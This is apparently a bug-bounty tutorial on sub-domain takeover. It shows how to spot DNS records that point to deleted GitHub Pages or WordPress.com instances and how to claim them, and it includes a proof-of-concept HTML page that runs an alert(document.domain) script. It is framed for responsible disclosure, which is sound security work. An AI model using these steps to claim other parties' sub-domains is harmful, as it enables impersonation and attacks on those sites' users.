



In order to successfully claim sub-domains pointing to deleted instances, you must have a basic understanding of the Domain Name System (DNS). Please do not just blindly follow this section without really understanding the theory behind it. On a side note, whenever you claim a sub-domain, make sure to only add a page and do not claim the index file. This will demonstrate good intentions when you report it to the program.
This is a simple, effective, and harmless way of demonstrating that you can claim a sub-domain.
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width">
<title>Sub-domain takeover</title>
<style>
body {
position: relative;
background: url("https://images.unsplash.com/photo-1469474968028-56623f02e42e");
font-family: sans-serif;
}
div {
position: absolute;
top: 50%;
left: 50%;
transform: translate(-50%, 50%);
padding: 50px;
height: auto;
width: 60vw;
background: #988AF9;
color: white;
box-shadow: 0 3px 6px rgba(0,0,0,0.16), 0 3px 6px rgba(0,0,0,0.23);
}
a {
color: #f8d9db;
text-decoration: none;
padding: 2px;
border-bottom: 3px solid #fff;
transition: 0.3s cubic-bezier(.68,-0.55,.27,1.55);
}
a:hover {
border-bottom: 3px solid #FF8F95;
}
</style>
</head>
<body>
<div>
<h1>📡 Sub-domain takeover</h1>
<p>This is a proof of concept to demonstrate that I can claim
this sub-domain and serve content on it.</p>
<p>Best regards,</p>
<a href="https://twitter.com">@username</a>
</div>
<script>alert(document.domain)</script>
</body>
</html>Here is a list of services where missing instances can potentially lead to sub-domain takeovers.
You will want to look for a sub-domain pointing to GitHub that returns a 404 when you access the hostname. Please note that just because you found a 404 on a GitHub Pages site does not mean that you can claim it.
$ host subdomain.example.com | grep "address"
subdomain.example.com has address 192.30.252.154
subdomain.example.com has address 192.30.252.153
$ nslookup 192.30.252.153 | grep name
153.252.30.192.in-addr.arpa name = lb-192-30-252-153-iad.github.com.Add a CNAME file in your repository pointing to the sub-domain or go to your repository's settings panel and add the sub-domain in the "Custom domain" section.
WordPress.com is a hosted website plaform from Automattic. Customers may point custom domains to their WordPress.com sites after upgrading to a paid plan. You will want to look for an asset displaying a domain mapping upgrade not found error:

Any of the WordPress.com paid plans can be used to take over a vulnerable asset. Purchase a plan and supply the sub-domain as your "site address" for upgrade. Create a discreet proof of concept and set the site privacy settings to "Hidden" to discourage search engine indexing.